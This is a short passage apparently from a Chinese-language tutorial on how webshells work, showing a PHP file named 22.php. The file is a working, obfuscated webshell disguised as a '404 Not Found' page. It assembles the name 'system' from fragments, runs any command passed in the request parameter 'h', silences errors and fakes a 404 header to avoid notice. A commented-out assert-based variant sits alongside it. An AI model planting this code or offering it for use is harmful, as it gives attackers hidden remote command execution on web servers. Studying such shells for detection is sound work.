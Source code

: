 ![](webshell原理.assets/21.png)

#### 22.php

```php
<!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
<html>
    <head>
        <title>404 Not Found</title>
    </head>
    <body>
        <h1>Not Found</h1>
        <p>The requested URL was not found on this server.</p>
    </body>
</html>
<?php
function result(){
$g = array('','s');
$gg = sy.$g[1].te.chr('109');
return @$gg($_REQUEST[h]);
//${"h"} = "ass".$_REQUEST["a"];
//return $h($_REQUEST['b']);
}
error_reporting(0);
@preg_replace_callback("//","result","");
header('HTTP/1.1 404 Not Found');
?>
```
